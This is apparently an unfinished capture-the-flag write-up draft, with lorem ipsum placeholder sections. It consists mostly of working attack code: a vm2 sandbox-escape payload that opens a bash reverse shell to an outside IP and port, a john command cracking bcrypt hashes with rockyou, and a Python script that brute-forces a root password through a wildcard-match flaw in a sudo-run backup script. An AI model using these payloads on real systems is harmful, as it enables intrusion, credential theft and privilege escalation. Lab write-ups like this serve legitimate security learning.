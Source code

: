 ``` json
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("bash -c 'exec bash -i &>/dev/tcp/10.10.16.104/4242 <&1'").ToString();
}
`

console.log(vm.run(code));
```



#john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt

-rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh

mysql use the charater * this confimerd password


``` python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```


sudo su-

---

# Lateral Movement to user
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Lateral Movement vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---